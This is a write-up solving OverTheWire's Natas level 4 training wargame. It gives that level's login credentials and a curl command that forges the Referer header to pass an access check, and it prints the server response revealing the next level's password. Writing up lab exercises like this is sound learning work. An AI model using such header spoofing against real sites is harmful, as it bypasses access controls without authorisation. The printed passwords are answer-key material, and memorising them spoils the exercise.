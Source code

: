 # NATAS LEVEL 4

```
http://overthewire.org/wargames/natas/natas4.html
```

```
Username: natas4
Password: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
URL:      http://natas4.natas.labs.overthewire.org
```

<img src='index.jpg' width=500px>

### SOLUTION

We are greeted with the following message..

```
Access disallowed. You are visiting from "" while authorized users should come only from
"http://natas5.natas.labs.overthewire.org/" 
```

.. feels like a cookie or a header is being used to supply this location. Let's inspect..

```
GET /index.php HTTP/1.1
Host: natas4.natas.labs.overthewire.org
Connection: keep-alive
Authorization: Basic bmF0YXM0Olo5dGtSa1dtcHQ5UXI3WHJSNWpXUmtnT1U5MDFzd0Va
Upgrade-Insecure-Requests: 1
DNT: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://natas4.natas.labs.overthewire.org/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: __cfduid=d773051550db82f7a8a4d2154d95cf23b1539528567; __utmc=176859643; __utmz=176859643.1540523077.10.2.utmcsr=google|utmccn=(organic)|utmcmd=organic|utmctr=(not%20provided); __utma=176859643.380347011.1539528564.1540653662.1540658153.12
```

We see there is a REFERER request header that looks promising.

```
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referer

The `Referer` request header contains the address of the previous web page from which a 
link to the currently requested page was followed. The `Referer` header allows servers to
identify where people are visiting them from and may use that data for analytics, logging,
or optimized caching, for example.
```

So let's try modifying this value before sending it onto the server..

```
$ curl 'http://natas4.natas.labs.overthewire.org/index.php' -H 'Authorization: Basic bmF0YXM0Olo5dGtSa1dtcHQ5UXI3WHJSNWpXUmtnT1U5MDFzd0Va' -H 'Referer: http://natas5.natas.labs.overthewire.org/'
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

Using the Chrome extension `Modify Headers`, we can achieve the same effect within the
browser..

<img src='chrome-mod-header.jpg' width=500px>
